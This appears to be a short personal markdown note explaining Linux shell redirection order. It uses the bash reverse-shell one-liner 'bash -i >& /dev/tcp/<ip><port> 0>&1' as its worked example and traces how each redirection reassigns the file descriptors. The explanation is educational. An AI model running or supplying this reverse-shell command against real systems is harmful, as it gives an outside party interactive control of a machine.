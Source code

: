 ```yaml
---
date: 201911051527
---
```

# redirection in Linux

Redirections in Linux can be interpreted as following:

1. Redirections are run from left to right.
2. `>` is similar to `=`, which is an assignment
3. `&` is close to `$` in bash, which indicates variables

For the example in [[201911041338]],

```bash
bash -i >& /dev/tcp/<ip><port> 0>&1
```

Here are three parts:

1. `bash -i` which is the command to launch new shell
2. `>& /dev/tcp/<ip><port>`, which redirects the stdout of 1 to `/dev/tcp/<ip><port>` as the stdin
3. `0>&1` redirects the stdin as the stdout

The process steps are shown as following:

Initial status of `bash -i`
0=stdin
1=stdout

after `>& /dev/tcp/<ip><port>`

0=stdin
1=(stdin of) `/dev/tcp/<ip><port>` (the stdin is default)

after `0>&1`

0=(stdout of) `/dev/tcp/<ip><port>`
1=(stdin of) `/dev/tcp/<ip><port>`


Ref: [^9E9D0123FC2D] [^158BD4883761]

[^158BD4883761]: [[shell - What does "3>&1 1>&2 2>&3" do in a script? - Unix & Linux Stack Exchange]]

[^9E9D0123FC2D]: [[bash - Order of redirections - Unix & Linux Stack Exchange]]
